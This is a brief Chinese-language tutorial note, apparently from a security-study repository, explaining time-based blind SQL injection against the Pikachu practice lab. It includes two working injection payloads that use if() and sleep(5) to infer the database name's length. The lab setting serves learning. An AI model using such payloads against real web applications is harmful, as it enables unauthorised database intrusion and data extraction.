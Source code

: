 ### 1、原理和布尔盲注一样
### 2、和布尔盲注不同的地方在于，无论结果是否正确，都返回同样的结果
### 3、所谓的时间盲注，就是用if判断语句，如果正确，则sleep几秒，否则，就回直接返回结果。
#### 使用pikachu数据库进行测试
##### 正确的语句
```sql
vince' and if(length(database())=7,sleep(5),1);#
```
![image](https://github.com/498946975/Security/blob/master/images/sleep_sql_1.png)
##### 错误的语句
```sql
vince' and if(length(database())=77777,sleep(5),1);#
```
![image](https://github.com/498946975/Security/blob/master/images/sleep_sql_2.png)
### 4、其他的语句注入，类似于布尔盲注，在此不多赘述。